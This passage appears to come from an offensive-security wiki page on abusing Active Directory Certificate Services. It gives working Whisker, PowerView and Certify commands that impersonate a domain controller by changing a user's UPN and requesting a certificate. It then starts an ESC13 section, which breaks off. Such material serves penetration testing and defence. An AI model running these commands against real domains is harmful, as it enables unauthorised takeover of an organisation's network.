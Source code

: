 Here, user1 has `GenericWrite` against user2 and want to compromise the domain controller DC$@domain.local.

First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to DC$@domain.local with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@domain.local'} -Verbose
```

A certificate permitting client authentication can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"User"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authentication with the obtained certificate will be performed through Schannel. It can be used to perform, for example, an [RBCD](../kerberos/delegations/rbcd.md) to fully compromised the domain controller.

:::


### (ESC13) Issuance policiy with privileged group linked

For a group to be linked to an issuance policy via `msDS-OIDToGroupLink` it must meet two requirements:

* Be empty
* Have a universal scope, i.e. be "Forest Wide". By default, "Forest Wide" groups are "Enterprise Read-only Domain Controllers", "Enterprise Key Admins", "Enterprise Admins" and "Schema Admins"

So, if a user or a computer can enroll on a template that specifies an issuance policy linked to a highly privileged group, the issued certificate privilegies will be mapped to those of the group.

To exploit ESC13, here are the requirements:

* The controlled principal can enroll to the template and meets all the required issuance policies
* The template specifies an issuance policy
* This policy is linked to a privileged groups via `msDS-OIDToGroupLink`
* The template allows the Client Authentication in its EKU
* All the usual requirements

::: tabs

=== UNIX-like
